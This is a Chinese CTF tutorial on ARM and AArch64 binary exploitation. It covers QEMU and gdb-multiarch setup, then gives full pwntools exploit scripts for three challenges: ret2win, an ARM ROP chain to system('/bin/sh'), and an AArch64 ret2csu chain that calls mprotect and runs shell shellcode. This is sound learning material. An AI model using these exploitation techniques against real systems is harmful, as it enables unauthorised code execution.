


# arm aarch64 pwn学习 - 先知社区

arm aarch64 pwn学习

- - -

# arm&aarch64 pwn学习

## QEMU

两种运行模式  
qemu-user  
qemu-system  
qemu-system 可以进行完整的系统仿真，而 qemu-user 只提供用户态仿真。  
安装：  
apt search "libc6-" | grep "arm"  
sudo apt-get install qemu qemu-user qemu-user-static

## 本地运行

### arm

qemu-arm -L /usr/arm-linux-gnueabi ./pwn

### aarch64

qemu-aarch64 -L /usr/aarch64-linux-gnu/ ./pwn

## gdb调试

下载：  
sudo apt-get install gdb-multiarch  
调试：  
gdb-multiarch pwn -q  
set architecture arm  
set architecture aarch64  
target remote localhost:1234

## ret2win (arm ret2text)

### 思路

[](https://xzfile.aliyuncs.com/media/upload/picture/20231221164217-d8f17206-9fdc-1.png)  
arm架构的，然后动态链接程序

[](https://xzfile.aliyuncs.com/media/upload/picture/20231221164233-e2374944-9fdc-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231221164242-e7c104b8-9fdc-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231221164247-eacc7eb2-9fdc-1.png)  
栈溢出，也有后门，很好解决，这里主要是通过调试去熟悉arm架构的寄存器的操作

[](https://xzfile.aliyuncs.com/media/upload/picture/20231221164254-eef44222-9fdc-1.png)  
可以看到这里寄存器和x86有区别，但是还是可以看个大概，这里我们就直接去通过通过调试去熟悉就可以了

我们直接在exp里面写上  
p = process(\["qemu-arm","-L","/usr/arm-linux-gnueabi","-g", "1234","./pwn"\])  
然后开始调试

[](https://xzfile.aliyuncs.com/media/upload/picture/20231221164305-f5b3e6c6-9fdc-1.png)  
调试异架构的时候建议直接下断点然后运行过去就可以

[](https://xzfile.aliyuncs.com/media/upload/picture/20231221164314-fabdff08-9fdc-1.png)  
这里我直接走到pwnme函数，可以看到bl就相当于call

[](https://xzfile.aliyuncs.com/media/upload/picture/20231221164322-ffb0b5be-9fdc-1.png)  
然后基本确定r0-r2储存前三个参数  
然后pc就是相当于rip，sp储存的就是栈顶

[](https://xzfile.aliyuncs.com/media/upload/picture/20231221164333-06440534-9fdd-1.png)  
r11就类似于rbp

[](https://xzfile.aliyuncs.com/media/upload/picture/20231221164341-0b03175e-9fdd-1.png)  
然后这里就是fp储存的栈底去减4赋值给sp

[](https://xzfile.aliyuncs.com/media/upload/picture/20231221164355-1307fafa-9fdd-1.png)  
然后就是pop {fp, pc}

[](https://xzfile.aliyuncs.com/media/upload/picture/20231221164403-1808efe6-9fdd-1.png)  
从上图调试，大概可以可以看出就是把sp储存的值pop给r11，然后再sp+1,再执行pop pc，沿着sp去执行程序，同时sp指针再加1

[](https://xzfile.aliyuncs.com/media/upload/picture/20231221164412-1d72844c-9fdd-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231221164418-20ca994a-9fdd-1.png)

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

context(arch='arm', os='linux')
context.log_level = 'debug'

p = process(["qemu-arm","-L","/usr/arm-linux-gnueabi","./pwn"])
#p = process(["qemu-arm","-L","/usr/arm-linux-gnueabi","-g", "1234","./pwn"])

pl = "a" * 0x24 + p32(0x000105EC)
sa('>', pl)
itr()
```

## typo (arm simple rop)

### 思路

[](https://xzfile.aliyuncs.com/media/upload/picture/20231221164446-319231ac-9fdd-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231221164450-340f1f26-9fdd-1.png)  
这里的ida里面的代码量很大，直接运行程序，去看看有没有溢出就可以

[](https://xzfile.aliyuncs.com/media/upload/picture/20231221164459-3959d37c-9fdd-1.png)  
这里可以看出溢出了，所以用gdb调试一下  
这里的gdb实际上是不太好调的

[](https://xzfile.aliyuncs.com/media/upload/picture/20231221164515-43312a3a-9fdd-1.png)  
如果我们只是输入范围内大小的字符串，调试那里会卡住，所以这里我们输入比较短的字符串很难去得到偏移，所以这里我们直接用cyclic去寻找

[](https://xzfile.aliyuncs.com/media/upload/picture/20231221164524-4867261c-9fdd-1.png)  
先用cyclic去生成一段字符串  
然后我们直接输入

[](https://xzfile.aliyuncs.com/media/upload/picture/20231221164533-4dee5b64-9fdd-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231221164538-5064e02a-9fdd-1.png)  
直接找出偏移112  
然后再找一下gadget

[](https://xzfile.aliyuncs.com/media/upload/picture/20231221164604-5fddf528-9fdd-1.png)  
然后找bin/sh

[](https://xzfile.aliyuncs.com/media/upload/picture/20231221164616-677471f4-9fdd-1.png)  
然后顺着bin/sh,找到了类似于system的函数

[](https://xzfile.aliyuncs.com/media/upload/picture/20231221164631-703cf69e-9fdd-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231221164655-7e7a16d8-9fdd-1.png)

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

context(arch='arm', os='linux')
context.log_level = 'debug'

p = process(["qemu-arm","-L","/usr/arm-linux-gnueabi","./pwn"])
#p = process(["qemu-arm","-L","/usr/arm-linux-gnueabi","-g", "1234","./pwn"])

r0_r4=0x00020904
bin_sh=0x0006c384
system=0x00010BA8
s('\n')
pl='a'*112+p32(r0_r4)+p32(bin_sh)+p32(0)+p32(system)
s(pl)
itr()
```

## baby\_arm (aarch64 ret2csu)

### 思路

[](https://xzfile.aliyuncs.com/media/upload/picture/20231221164832-b83caf66-9fdd-1.png)  
先动调熟悉一下

[](https://xzfile.aliyuncs.com/media/upload/picture/20231221164843-bea32506-9fdd-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231221164847-c148ee08-9fdd-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231221164851-c3d20fec-9fdd-1.png)  
储存参数的寄存器是x0-x2  
然后在ida中我们发现有mprotect函数  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231221164902-ca547ac6-9fdd-1.png)  
然后第一次read是直接读入到bss段，所以这里我们就可以去写shellcode，然后利用mprotect修改权限后调用

[](https://xzfile.aliyuncs.com/media/upload/picture/20231221164910-cecc7158-9fdd-1.png)  
然后这里就是类似于csu的gadget

[](https://xzfile.aliyuncs.com/media/upload/picture/20231221164917-d34ee9b8-9fdd-1.png)  
这一段LDP X19, X20, \[SP,#var\_s10\]  
意思是将sp+0x10处数据给x19，sp+0x18处数据给0x20  
以此类推，后面的汇编表示的是：  
将sp+0x20处数据给x21，sp+0x28处数据给0x22  
将sp+0x30处数据给x23，sp+0x38处数据给0x24  
将sp处数据给x29，sp+0x8处数据给x30  
RET ; 返回x30寄存器中存放的地址/PC  
这一段的作用就是赋值

[](https://xzfile.aliyuncs.com/media/upload/picture/20231221164929-da334b02-9fdd-1.png)  
然后这一段就是利用x21，x22，x23，x24分别向x3，x2，x1，x0赋值，然后跳转到x3的地址，然后比较x19与x20，相等不跳转  
第一次read输入shellcode，然后第二次用csu去调用相应的函数和shellcode

```plain
def csu(x19,x20,call_got,x2,x1,x0,call_shell):
    pl ='a' * offset
    pl += p64(csu_down)
    pl += p64(0) + p64(csu_up)
    pl += p64(x19) + p64(x20) #x19 x20
    pl += p64(call_got) + p64(x2) #x21 x22
    pl += p64(x1) + p64(x0) #x23 x24
    pl += p64(0) + p64(call_shell)
    pl += p64(0) * 6
    return pl
```

这里的定义的csu就是溢出后调用，先去覆盖返回地址为csu\_down，调用后sp指向csu\_down，然后按照偏移依次往下构造就可以

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

context.arch = 'aarch64'
context.os = 'linux'
context.log_level = 'debug'

p = process(["qemu-aarch64","-L","/usr/aarch64-linux-gnu/","./pwn"])
#p = process(["qemu-aarch64","-L","/usr/aarch64-linux-gnu/","-g", "1234","./pwn"])
mprotect_plt = 0x400600
mprotect_got = 0x411030
csu_down = 0x4008CC
csu_up = 0x4008AC

offset=0x48

def csu(x19,x20,call_got,x2,x1,x0,call_shell):
    pl ='a' * offset
    pl += p64(csu_down)
    pl += p64(0) + p64(csu_up)
    pl += p64(x19) + p64(x20) #x19 x20
    pl += p64(call_got) + p64(x2) #x21 x22
    pl += p64(x1) + p64(x0) #x23 x24
    pl += p64(0) + p64(call_shell)
    pl += p64(0) * 6
    return pl

shellcode_addr = 0x411068
shellcode = asm(shellcraft.aarch64.sh())
pl = shellcode
sa('Name:',pl)

pl=csu(0,1,mprotect_got,7,0x1000,shellcode_addr,shellcode_addr)
s(pl)
itr()
```
